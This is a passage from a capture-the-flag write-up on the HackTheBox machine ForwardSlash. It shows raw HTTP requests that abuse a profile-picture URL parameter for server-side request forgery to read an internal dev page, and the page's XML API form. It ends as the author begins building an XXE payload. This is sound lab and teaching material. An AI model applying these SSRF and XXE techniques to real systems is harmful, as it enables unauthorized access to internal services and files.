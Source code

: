 ```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=http://backup.forwardslash.htb/dev/
```

Yes! We obtained the HTML code of the dev endpoint:

```html
<html>
	<h1>XML Api Test</h1>
	<h3>This is our api test for when our new website gets refurbished</h3>
	<form action="/dev/index.php" method="get" id="xmltest">
		<textarea name="xml" form="xmltest" rows="20" cols="50"><api>
    <request>test</request>
</api>
</textarea>
		<input type="submit">
	</form>

</html>

<!-- TODO:
Fix FTP Login
-->
```

It's talking about XML and FTP login as said in the deface.

Let's try to send a default request to the XML api:

```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=http://backup.forwardslash.htb/dev/index.php?xml=<noraj></noraj>
```

Nothing fancy yet.

### HTTP exploitation: XXE

We noticed in the HTML code the following structure:

```xml
<api>
    <request>test</request>
</api>
```

So let's try to forge a simple XXE payload using it:
